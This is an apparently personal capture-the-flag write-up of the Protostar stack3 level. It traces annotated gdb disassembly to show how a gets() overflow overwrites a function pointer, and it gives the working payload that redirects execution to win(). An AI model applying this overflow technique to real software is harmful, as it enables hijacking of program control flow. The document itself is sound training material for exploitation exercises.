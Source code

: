 # For stack3 in Protostar

## Disassembly
Below is the disassembly dump of the `main` function.
I added the comments to explain the assembly code.
```
(gdb) disassemble main
Dump of assembler code for function main:
0x08048438 <main+0>:	push   ebp
0x08048439 <main+1>:	mov    ebp,esp
0x0804843b <main+3>:	and    esp,0xfffffff0
0x0804843e <main+6>:	sub    esp,0x60
0x08048441 <main+9>:	mov    DWORD PTR [esp+0x5c],0x0	;create null variable at esp+0x5c.
0x08048449 <main+17>:	lea    eax,[esp+0x1c]		; eax = esp + 0x1c.
0x0804844d <main+21>:	mov    DWORD PTR [esp],eax
0x08048450 <main+24>:	call   0x8048330 <gets@plt>	; char *destOfGets = eax.
0x08048455 <main+29>:	cmp    DWORD PTR [esp+0x5c],0x0	; check to make the null var is still null.
0x0804845a <main+34>:	je     0x8048477 <main+63>	; jump if null var is still null.
0x0804845c <main+36>:	mov    eax,0x8048560		; "calling function pointer, jumping to..."
0x08048461 <main+41>:	mov    edx,DWORD PTR [esp+0x5c]
0x08048465 <main+45>:	mov    DWORD PTR [esp+0x4],edx
0x08048469 <main+49>:	mov    DWORD PTR [esp],eax	
0x0804846c <main+52>:	call   0x8048350 <printf@plt>	; prints string at memory location 0x8048560
0x08048471 <main+57>:	mov    eax,DWORD PTR [esp+0x5c]
0x08048475 <main+61>:	call   eax			; transfers code execution specified by esp+0x5.
0x08048477 <main+63>:	leave  
0x08048478 <main+64>:	ret    
End of assembler dump.
```
Based on the `main` function above, it seems the user supplied input is called at `0x8048475 <main+61>: call eax`.

I tried out the program in gdb to see if it was true.

## Program output
```
(gdb) start
Temporary breakpoint 3 at 0x8048441: file stack3/stack3.c, line 16.
Starting program: /opt/protostar/bin/stack3 

Temporary breakpoint 3, main (argc=1, argv=0xbffff754) at stack3/stack3.c:16
16	in stack3/stack3.c
0x08048441 <main+9>:	 c7 44 24 5c 00 00 00 00	mov    DWORD PTR [esp+0x5c],0x0
(gdb) c
Continuing.

Breakpoint 1, 0x08048450 in main (argc=1, argv=0xbffff754) at stack3/stack3.c:18
18	in stack3/stack3.c
0x08048450 <main+24>:	 e8 db fe ff ff	call   0x8048330 <gets@plt>
(gdb) ni
aaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbccccccccccccccccccccccccccccccccccccccccccccddddddddddddddddddddddddddddddddddeeeeeeeeeeeeeeeeeeeeeeeeffffffffffffffffffffffffgggggggggggggggggggggggg
20	in stack3/stack3.c
0x08048455 <main+29>:	 83 7c 24 5c 00	cmp    DWORD PTR [esp+0x5c],0x0
0x0804845a <main+34>:	 74 1b	je     0x8048477 <main+63>
(gdb) x/x $esp+0x5c
0xbffff69c:	0x63626262
(gdb) ni
0x0804845a	20	in stack3/stack3.c
0x0804845a <main+34>:	 74 1b	je     0x8048477 <main+63>
(gdb) 
21	in stack3/stack3.c
0x0804845c <main+36>:	 b8 60 85 04 08	mov    eax,0x8048560
0x08048461 <main+41>:	 8b 54 24 5c	mov    edx,DWORD PTR [esp+0x5c]
0x08048465 <main+45>:	 89 54 24 04	mov    DWORD PTR [esp+0x4],edx
0x08048469 <main+49>:	 89 04 24	mov    DWORD PTR [esp],eax
0x0804846c <main+52>:	 e8 df fe ff ff	call   0x8048350 <printf@plt>
(gdb) 
0x08048461	21	in stack3/stack3.c
0x08048461 <main+41>:	 8b 54 24 5c	mov    edx,DWORD PTR [esp+0x5c]
0x08048465 <main+45>:	 89 54 24 04	mov    DWORD PTR [esp+0x4],edx
0x08048469 <main+49>:	 89 04 24	mov    DWORD PTR [esp],eax
0x0804846c <main+52>:	 e8 df fe ff ff	call   0x8048350 <printf@plt>
(gdb) 
0x08048465	21	in stack3/stack3.c
0x08048465 <main+45>:	 89 54 24 04	mov    DWORD PTR [esp+0x4],edx
0x08048469 <main+49>:	 89 04 24	mov    DWORD PTR [esp],eax
0x0804846c <main+52>:	 e8 df fe ff ff	call   0x8048350 <printf@plt>
(gdb) 
0x08048469	21	in stack3/stack3.c
0x08048469 <main+49>:	 89 04 24	mov    DWORD PTR [esp],eax
0x0804846c <main+52>:	 e8 df fe ff ff	call   0x8048350 <printf@plt>
(gdb) 
0x0804846c	21	in stack3/stack3.c
0x0804846c <main+52>:	 e8 df fe ff ff	call   0x8048350 <printf@plt>
(gdb) 
calling function pointer, jumping to 0x63626262
22	in stack3/stack3.c
0x08048471 <main+57>:	 8b 44 24 5c	mov    eax,DWORD PTR [esp+0x5c]
0x08048475 <main+61>:	 ff d0	call   eax
(gdb) 
0x08048475	22	in stack3/stack3.c
0x08048475 <main+61>:	 ff d0	call   eax
(gdb) 
0x63626262 in ?? ()
0x63626262:	Cannot access memory at address 0x63626262
(gdb) 
```
As you can see above, the program tried to call an instruction at a location. That location `0x63626262` (ie *'bbbc'*), is taken from our input string.

So we now know that we can redirect the flow of the program by calling a function. But call what exactly? Let's find out what function it is we can call. Turns out it is the `win()` function.
```
(gdb) info functions
All defined functions:

File stack3/stack3.c:
int main(int, char **);
void win(void);
(gdb)
```

## Disassembly of win()
```
(gdb) disassemble win
Dump of assembler code for function win:
0x08048424 <win+0>:	push   ebp
0x08048425 <win+1>:	mov    ebp,esp
0x08048427 <win+3>:	sub    esp,0x18
0x0804842a <win+6>:	mov    DWORD PTR [esp],0x8048540
0x08048431 <win+13>:	call   0x8048360 <puts@plt>
0x08048436 <win+18>:	leave  
0x08048437 <win+19>:	ret    
End of assembler dump.
```

## Winning strategy and input

So all I had to do was to append the address of `win()` to the end of 64 `\x61`s. See below for the winning inputs.

```
user@protostar:~$ echo -e '\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x24\x84\x04\x08' > stack3input 
user@protostar:/opt/protostar/bin$ cat /home/user/stack3input | ./stack3 
calling function pointer, jumping to 0x08048424
code flow successfully changed
user@protostar:/opt/protostar/bin$ 
```

Game won. :)

---
  
### Just some extras for me to solve

 - Extras 1: Even though I entered the same winning input in GDB that gave me *"code flow successfully changed"* (see above), I got the following error in `__libc_start_main`. What does the error mean? And why did it come about when the same input run in stack3 directly did not get the same error.
```
(gdb) 
calling function pointer, jumping to 0x08048424
22	in stack3/stack3.c
0x08048471 <main+57>:	 8b 44 24 5c	mov    eax,DWORD PTR [esp+0x5c]
0x08048475 <main+61>:	 ff d0	call   eax
(gdb) 
0x08048475	22	in stack3/stack3.c
0x08048475 <main+61>:	 ff d0	call   eax
(gdb) 
code flow successfully changed
24	in stack3/stack3.c
0x08048477 <main+63>:	 c9	leave  
0x08048478 <main+64>:	 c3	ret    
(gdb) 
0x08048478 in main (argc=134513720, argv=0x1) at stack3/stack3.c:24
24	in stack3/stack3.c
0x08048478 <main+64>:	 c3	ret    
(gdb) 
__libc_start_main (main=0x8048438 <main>, argc=1, ubp_av=0xbffff754, init=0x8048490 <__libc_csu_init>, 
    fini=0x8048480 <__libc_csu_fini>, rtld_fini=0xb7ff1040 <_dl_fini>, stack_end=0xbffff74c)
    at libc-start.c:260
260	libc-start.c: No such file or directory.
	in libc-start.c
0xb7eadc76 <__libc_start_main+230>:	 89 04 24	mov    DWORD PTR [esp],eax
0xb7eadc79 <__libc_start_main+233>:	 e8 42 84 01 00	call   0xb7ec60c0 <*__GI_exit>
```
I found the following answer on this [GitHub issue](https://github.com/Microsoft/vscode-cpptools/issues/1123).
>This is "by design". After you return from main, the code belongs to the library code, in this case, libc-start.c, which is not available on your machine, unless you happened to have built the libc runtime you're using from the source. In generally, you shouldn't need to look at code that is not yours, so you can just ignore the pop about a missing file. In your example, you can put a breakpoint on the return 0, but you shouldn't need to step beyond that. 

In other words, I need not be alarmed at this "error". It's a normal thing. :)

END

